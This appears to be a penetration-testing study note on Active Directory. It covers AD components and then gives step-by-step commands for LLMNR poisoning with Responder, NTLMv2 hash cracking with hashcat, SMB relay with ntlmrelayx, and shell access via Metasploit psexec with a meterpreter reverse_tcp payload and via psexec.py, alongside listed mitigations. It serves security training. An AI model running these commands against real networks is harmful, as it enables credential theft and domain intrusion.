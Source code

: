 # Active Directory

1. [Introduction](#introduction)
2. [Attacking Active Directory: Initial Attack Vectors](#attacking-active-directory-initial-attack-vectors)

## Introduction

* Active Directory (AD) - Directory service developed by Microsoft to manage Windows domain networks; authenticates using Kerberos tickets.

* Physical AD components:

  * Domain Controller - server with AD DS (Active Directory Domain Services) server role installed; hosts a copy of the AD DS directory store and provides authentication & authorization services; admin access.

  * AD DS Data Store - contains database files and processes that store, manage directory info for users, services, apps; consists of Ntds.dit file.

* Logical AD components:

  * AD DS Schema - enforces rules regarding object creation and configuration.

  * Domains - used to group and manage objects in an organization.

  * Trees - hierarchy of domains in AD DS.

  * Forests - collection of domain trees.

  * Organizational Units (OUs) - AD containers that can contain users, groups, containers and other OUs.

  * Trusts - mechanism for users to gain access to resources in another domain; can be directional or transitive.

  * Objects - user, groups, contacts, computers, etc.; everything inside a domain.

## Attacking Active Directory: Initial Attack Vectors

* [This article](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) covers some common ways to attack active directory computers and get domain admin.

* LLMNR Poisoning:

  * LLMNR (Link-Local Multicast Name Resolution) is used to identify hosts when DNS fails; previously NBT-NS

  * Flaw is that services utilize username and NTLMv2 hash when aptly responded to.

  * Steps:

    * Run Responder tool in Kali

    ```shell
    ip a
    #note interface

    python Responder.py -I eth0 -rdw
    ```

    * Event occurs in Windows

    * Obtain hashes and crack them using Hashcat

    ```shell
    hashcat -m 5600 ntlmhash.txt rockyou.txt
    #-m 5600 for NTLMv2
    #ntlmhash.txt contains the hashes
    ```

  * Mitigation:

    * Disable LLMNR and NBT-NS

    * Require Network Access Control

    * Use strong password policy

* SMB Relay:

  * Instead of cracking hashes gathered with Responder, we can relay those hashes to specific machines and gain access.

  * Requirements:

    * SMB signing must be disabled on target
    * Relayed user creds must be admin on machine

  * Steps:

    * Discover hosts with SMB signing disabled

    ```shell
    nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24
    #we need to note down machines with 'message signing enabled but not required'

    vim targets.txt
    #add target IPs
    ```

    * Edit Responder config - turn SMB and HTTP off

    ```shell
    vim /etc/responder/Responder.conf
    #turn SMB, HTTP off
    ```

    * Run Responder tool

    ```shell
    python Responder.py -I eth0 -rdw
    ```

    * Setup relay

    ```shell
    python ntlmrelayx.py -tf targets.txt -smb2support

    #trigger connection in Windows machine
    #by pointing it at the attacker machine

    #-i option can be used for an interactive shell
    ```

    * Event occurs in Windows machine

    * Credentials are captured (and saved) and we get access to machine

  * Mitigation:

    * Enable SMB signing on all devices

    * Disable NTLM authentication on network

    * Account tiering

    * Local admin restriction (to prevent lateral movement)

* Gaining Shell Access:

```shell
#this step has to be done once we have the credentials
msfconsole

search psexec

use exploit/windows/smb/psexec

options
#set all required options
#such as RHOSTS, smbdomain, smbpass and smbuser

set payload windows/x64/meterpreter/reverse_tcp

set LHOST eth0

run
#run exploit
```

```shell
#we can use another tool called psexec.py
psexec.py marvel.local/fcastle:Password1@192.168.57.141

#try multiple options if these tools do not work
#such as smbexec and wmiexec
```
